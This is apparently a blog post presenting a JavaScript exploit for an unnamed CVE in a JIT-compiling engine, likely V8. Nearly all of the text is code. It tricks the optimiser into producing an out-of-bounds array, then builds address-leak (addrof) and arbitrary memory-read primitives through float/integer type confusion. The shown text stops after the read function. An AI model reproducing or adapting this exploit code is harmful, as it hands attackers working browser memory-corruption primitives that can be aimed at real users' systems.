 I've written and attached an entire exploit for this CVE below.

{{< code language="js" title="exploit.js" id="1" expand="Show" collapse="Hide" isCollapsed="true" >}}
let bs = new ArrayBuffer(8);
let fs = new Float64Array(bs);
let is = new BigUint64Array(bs);

const ftoi = x => {
  fs[0] = x;
  return is[0];
}

const itof = x => {
  is[0] = x;
  return fs[0];
}

function foo(a) {
  let x = 0xffffffff;
  if (a) x = -1;

  let z = Math.max(0, x);
  z = 0 - z; 
  z = Math.sign(z);

  let cor = new Array(z);
  cor.shift();

  let oob = [1.1, 2.2, 3.3];
  return { cor, oob };
}

for (let i = 0; i < 100000; i++)
  foo(true);

let { cor, oob } = foo(false);
cor[16] = 1337;

/* flt.elements @ oob[10] (upper) */
/* obj.elements @ oob[22] (upper) */
let flt = [1.1];
let tmp = {a: 1};
let obj = [tmp];

function addrof(o) {
  let a = ftoi(oob[22]) >> 32n;
  let b = ftoi(oob[10]) & 0xffffffffn;
  oob[10] = itof((a << 32n) + b);
  obj[0] = o;
  return (ftoi(flt[0]) & 0xffffffffn) - 1n;
}

function read(p) {
  let a = ftoi(oob[10]) & 0xffffffffn;
  oob[10] = itof(((p - 8n + 1n) << 32n) + a);
  return ftoi(flt[0]);
}
